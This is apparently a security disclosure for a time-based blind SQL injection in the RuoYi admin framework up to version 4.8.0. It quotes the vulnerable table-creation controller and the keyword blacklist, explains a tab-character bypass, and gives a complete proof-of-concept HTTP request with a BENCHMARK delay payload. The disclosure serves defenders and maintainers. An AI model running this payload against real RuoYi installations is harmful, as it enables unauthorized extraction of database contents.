 # Ruoyi 4.8.0 sqli injection
Ruoyi is an open-source project on GitHub with 6.8k stars. This vulnerability bypasses the blacklist in the code, leading to an SQL injection vulnerability.
## Version & Reference
ruoyi ≤4.8.0

https://github.com/yangzongzhuan/RuoYi
## Vulnerable Code
The vulnerability exists in `/com/ruoyi/generator/controller`, and the relevant code is as follows.
```java
@RequiresRoles("admin")
    @Log(title = "创建表", businessType = BusinessType.OTHER)
    @PostMapping("/createTable")
    @ResponseBody
    public AjaxResult create(String sql)
    {
        try
        {
            SqlUtil.filterKeyword(sql);
            List<SQLStatement> sqlStatements = SQLUtils.parseStatements(sql, DbType.mysql);
            List<String> tableNames = new ArrayList<>();
            for (SQLStatement sqlStatement : sqlStatements)
            {
                if (sqlStatement instanceof MySqlCreateTableStatement)
                {
                    MySqlCreateTableStatement createTableStatement = (MySqlCreateTableStatement) sqlStatement;
                    if (genTableService.createTable(createTableStatement.toString()))
                    {
                        String tableName = createTableStatement.getTableName().replaceAll("`", "");
                        tableNames.add(tableName);
                    }
                }
            }
            List<GenTable> tableList = genTableService.selectDbTableListByNames(tableNames.toArray(new String[tableNames.size()]));
            String operName = Convert.toStr(PermissionUtils.getPrincipalProperty("loginName"));
            genTableService.importGenTable(tableList, operName);
            return AjaxResult.success();
        }
        catch (Exception e)
        {
            logger.error(e.getMessage(), e);
            return AjaxResult.error("创建表结构异常");
        }
    }
```
The subsequent processing code of the SQL statement and the mapper code.

![image.png](./img/4.png)

![image.png](./img/5.png)

The blacklist code is located in `/com/ruoyi/common/utils/sql/SqlUtil.java`, and the relevant code is as follows:
```java
 public static String SQL_REGEX = "\u000B|and |extractvalue|updatexml|sleep|exec |insert |select |delete |update |drop |count |chr |mid |master |truncate |char |declare |or |union |like |+|/*|user()";
 public static void filterKeyword(String value)
    {
        if (StringUtils.isEmpty(value))
        {
            return;
        }
        String[] sqlKeywords = StringUtils.split(SQL_REGEX, "\\|");
        for (String sqlKeyword : sqlKeywords)
        {
            if (StringUtils.indexOfIgnoreCase(value, sqlKeyword) > -1)
            {
                throw new UtilException("参数存在SQL注入风险");
            }
        }
    }
```
The blacklist filtering function can be bypassed using `%09`. For example, `select%09` can be used to circumvent the filter.
## Reproduction of Vulnerability
POC：
`sql=create+table+ttg1+as+select%09+*+from+sys_job+where+1=1+union%09+select%09if(length(database())=2,BENCHMARK(90000000,SHA1('Hackitnow')),1),2,3,4,5,6,7,8,9,10,11,12,13;`
```java
POST /tool/gen/createTable HTTP/1.1
Host: 192.168.30.101
Content-Length: 173
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36 Edg/134.0.0.0
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.30.101
Referer: http://192.168.30.101/tool/gen/createTable
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: JSESSIONID=98e069aa-c8f7-4116-af5a-a4ff7c85016f
Connection: keep-alive

sql=create+table+ttg1+as+select%09+*+from+sys_job+where+1=1+union%09+select%09if(length(database())=2,BENCHMARK(90000000,SHA1('Hackitnow')),1),2,3,4,5,6,7,8,9,10,11,12,13;
```
Here, the `length` function is utilized to deduce the length of the database name. The database name is `ry`, and its length is 2.

When the input is 3, the condition evaluates to false, and the `benchmark` function is not executed.

![image.png](./img/1.png)

When the input is 2, the condition evaluates to true, and a `benchmark` delay injection is executed.

![image.png](./img/2.png)

![image.png](./img/3.png)